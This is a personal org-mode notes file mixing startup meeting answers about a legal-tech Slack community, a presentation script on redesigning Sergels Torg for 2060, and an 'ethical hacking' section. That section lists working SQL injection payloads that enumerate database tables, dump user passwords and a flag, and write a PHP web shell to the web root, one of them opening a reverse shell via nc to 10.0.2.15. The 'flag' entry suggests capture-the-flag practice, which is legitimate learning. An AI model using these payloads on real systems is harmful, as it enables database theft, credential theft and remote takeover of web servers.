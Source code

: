 #+AUTHOR: CALIN CAPITANU
#+TITLE: Quick Notes

* Hailey meeting 12/08/2020
** What do you think Hailey can achieve, do and use the Slack channel for - how does it differ from the custom made app?
Only through slack I think we can do at most the following:
+ Gather a medium sized community
+ Get 5-10% of that community to actively interact with eachother and be interested in our posts there
+ Organize LegalTech events
It is mostly different in terms of control over how users interact with the platform. I think that the initial target of this is to gather a 
community, thus for the short-term, there is nothing more that a dedicated app would offer, but needs might arise for specific implementations.
** What do you envision your role in relation to the Hailey Slack channel to be? What do you want to do in the Slack channel?
I would like to see myself as a moderator for the tech channel along with Leandro.
** How does your role change in the light of the pivot?
   It all depends on what are the next decisions, haha. If the decision is that we are building smaller tools to help the legal-tech community, then 
   I'd guess my role would still be as a developer, which would be great. Otherwise, I think my role would be more of a Newspaper Reporter to the
tech channel, maybe Moderator as above mentioned.
** What are the new roles and necessities you see emerging from the pivot?
Definetely crowd controllers and community builders. People that know how people work, if that makes sense. People that know how to 
keep people talking and engaged in conversation. We are trying basically to become a group of influencers, which we need reputation for,
thus people with such knowledge would be great (vloggers, bloggers).
** What new commitments or changes to your excisiting ones are you ready to make due to the pivot?
I would like to be involved as much as I was before, I think it is the right amount of work I can do at the moment, school starts in 2 weeks, or one 
which is scary, but I might be able to do more at times, possible less at other times (exams of course). But around 8 to 10 hours a week is usually something
I can do for 
* ethical hacking
** databases
%' UNION (SELECT 1,table_name,3,4  FROM information_schema.tables ) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** columns
%' UNION (SELECT 1,column_name,3,4  FROM information_schema.columns WHERE TABLE_NAME = 'users') UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** flag
%' UNION (SELECT 1,flag,3,4  FROM flags) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** passwords
%' UNION (SELECT usID, usPseudo, usPasse , usAvecPhoto  FROM users) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%



%' union select 1, '<?php system($_GET["cmd"]); ?>',2,3 into outfile '/var/www/html/php/cmd.php' #

%' union select 1, '<?php system('/bin/sh | nc 10.0.2.15 5566'); ?>',2,3 into outfile '/var/www/html/php/cmd1.php' #
* Prezentare Vlad
In order to better represent our vision, we chose Sergels Torg as a reference point for the project. 
We found that Sergels Torg is a quite dynamic place, and in our vision, the life in 2060 will be less stressful,
moreover, even more calm. So in order to achieve that, we redesigned Sergels Torg as
a big amphitheater and we also redesigned the pavement. In terms of agriculture and urban farming,
we changed the high buildings into farming factories, and in order to take advantage of the place itself,
we designed an extra facade that brings more space for urban farming to take place in the very center of the 
city. As mentioned before, the main commercial buildings will be changed by 2060 into stores with local 
production. 

